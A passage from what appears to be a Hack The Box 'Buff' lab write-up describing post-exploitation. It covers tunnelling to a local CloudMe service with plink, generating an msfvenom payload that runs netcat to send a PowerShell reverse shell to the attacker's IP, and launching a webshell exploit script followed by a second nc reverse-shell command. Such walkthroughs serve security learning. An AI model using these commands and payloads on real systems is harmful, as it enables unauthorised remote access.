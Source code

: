 This was a bit of a nightmare to do - a lot of the time the connection would just die and not connect properly, which I suspect was something to do with the SSH configuration of my attacker machine. Eventually I got it working, from what I can tell I just run `systemctl start ssh` and then tried to connect and it just decided to work. Still not entirely sure what I did wrong the previous 100 times. Note my IP address is different from this point forward because it took me several days to actually get it working.
```bash
PS C:\xampp\htdocs\gym\upload> ./plink.exe 10.10.15.145 -R 8888:127.0.0.1:8888 -l kali -pw <pw>
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
ssh-ed25519 255 cd:7e:6f:22:5d:6a:aa:3e:17:d9:07:b5:0b:6c:8d:bd
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) y
Using username "kali".
Linux kali 5.6.0-kali1-amd64 #1 SMP Debian 5.6.7-1kali1 (2020-05-12) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug  2 21:30:35 2020 from 10.10.10.198
kali@kali:~$
```
In this instance, plink is binding to a port on the attacking machine using SSH, and connecting that port to the local service running on port 8888, which is Cloudme 1.11.2. This creates a tunnel to the previously-unreachable service through which I can now use to interact with it on my machine.
Next step is to modify the exploit with a new payload. I tried a number of different payloads, eventually the one that worked was making use of the existing nc.exe in the downloads folder to send a reverse shell back to me.
  
Generating payload:
```bash
kali@kali:~/Desktop/htb/buff$ msfvenom -a x86 --platform windows -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e powershell 10.10.15.145 4444' -b '\x00\x0A\x0D' -f python > payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 277 (iteration=0)
x86/shikata_ga_nai chosen with final size 277
Payload size: 277 bytes
Final size of python file: 1361 bytes
```
In order to ensure the CloudMe process is running, I need to spawn another powershell instance using the webshell and then use this instance to run the service. The good thing is I was able to run it over and over to test different payloads until one finally worked (it ended up taking quite a few to find one which worked).
```bash
kali@kali:~/Desktop/htb/buff$ python gym_rce.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                                                                                      
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> nc -e powershell 10.10.15.145 5555
```